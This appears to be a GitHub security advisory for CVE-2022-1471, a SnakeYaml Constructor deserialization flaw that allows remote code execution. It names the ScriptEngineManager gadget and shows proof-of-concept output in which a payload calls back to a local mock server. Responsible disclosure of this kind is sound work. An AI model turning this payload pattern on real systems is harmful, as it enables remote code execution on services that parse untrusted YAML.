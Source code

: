 ```yaml
---
title: 'SnakeYaml: Constructor Deserialization Remote Code Execution'
severity: High
ghsa_id: GHSA-mjmj-j48q-9wg2
cve_id: CVE-2022-1471
weaknesses: []
products:
- ecosystem: SnakeYaml
  package_name: Constructor
  affected_versions: '1.30'
  patched_versions: ''
cvss: null
credits:
- github_user_id: justintaft
  name: Justin Taft
  avatar: https://avatars.githubusercontent.com/u/8340498?s=40&v=4
- github_user_id: securisec
  name: securisec
  avatar: https://avatars.githubusercontent.com/u/22226823?s=40&v=4
---
```


### Summary
SnakeYaml's `Constructor` class, which inherits from `SafeConstructor`, allows
any type be deserialized given the following line:

new Yaml(new Constructor(TestDataClass.class)).load(yamlContent);

Types do not have to match the types of properties in the
target class. A `ConstructorException` is thrown, but only after a malicious
payload is deserialized.

### Severity
High, lack of type checks during deserialization allows remote code execution.

### Proof of Concept
Execute `bash run.sh`. The PoC uses Constructor to deserialize a payload
for RCE. RCE is demonstrated by using a payload which performs a http request to
http://127.0.0.1:8000.

Example output of successful run of proof of concept:

```
$ bash run.sh

[+] Downloading snakeyaml if needed
[+] Starting mock HTTP server on 127.0.0.1:8000 to demonstrate RCE
nc: no process found
[+] Compiling and running Proof of Concept, which a payload that sends a HTTP request to mock web server.
[+] An exception is expected.
Exception:
Cannot create property=payload for JavaBean=Main$TestDataClass@3cbbc1e0
 in 'string', line 1, column 1:
    payload: !!javax.script.ScriptEn ... 
    ^
Can not set java.lang.String field Main$TestDataClass.payload to javax.script.ScriptEngineManager
 in 'string', line 1, column 10:
    payload: !!javax.script.ScriptEngineManag ... 
             ^

	at org.yaml.snakeyaml.constructor.Constructor$ConstructMapping.constructJavaBean2ndStep(Constructor.java:291)
	at org.yaml.snakeyaml.constructor.Constructor$ConstructMapping.construct(Constructor.java:172)
	at org.yaml.snakeyaml.constructor.Constructor$ConstructYamlObject.construct(Constructor.java:332)
	at org.yaml.snakeyaml.constructor.BaseConstructor.constructObjectNoCheck(BaseConstructor.java:230)
	at org.yaml.snakeyaml.constructor.BaseConstructor.constructObject(BaseConstructor.java:220)
	at org.yaml.snakeyaml.constructor.BaseConstructor.constructDocument(BaseConstructor.java:174)
	at org.yaml.snakeyaml.constructor.BaseConstructor.getSingleData(BaseConstructor.java:158)
	at org.yaml.snakeyaml.Yaml.loadFromReader(Yaml.java:491)
	at org.yaml.snakeyaml.Yaml.load(Yaml.java:416)
	at Main.main(Main.java:37)
Caused by: java.lang.IllegalArgumentException: Can not set java.lang.String field Main$TestDataClass.payload to javax.script.ScriptEngineManager
	at java.base/jdk.internal.reflect.UnsafeFieldAccessorImpl.throwSetIllegalArgumentException(UnsafeFieldAccessorImpl.java:167)
	at java.base/jdk.internal.reflect.UnsafeFieldAccessorImpl.throwSetIllegalArgumentException(UnsafeFieldAccessorImpl.java:171)
	at java.base/jdk.internal.reflect.UnsafeObjectFieldAccessorImpl.set(UnsafeObjectFieldAccessorImpl.java:81)
	at java.base/java.lang.reflect.Field.set(Field.java:780)
	at org.yaml.snakeyaml.introspector.FieldProperty.set(FieldProperty.java:44)
	at org.yaml.snakeyaml.constructor.Constructor$ConstructMapping.constructJavaBean2ndStep(Constructor.java:286)
	... 9 more
[+] Dumping Received HTTP Request. Will not be empty if PoC worked
GET /proof-of-concept HTTP/1.1
User-Agent: Java/11.0.14
Host: localhost:8000
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
```

### Further Analysis
Potential mitigations include, leveraging SnakeYaml's SafeConstructor while parsing untrusted content.

See https://bitbucket.org/snakeyaml/snakeyaml/issues/561/cve-2022-1471-vulnerability-in#comment-64581479 for discussion on the subject.

### Timeline
**Date reported**: 4/11/2022
**Date fixed**: 
**Date disclosed**: 10/13/2022
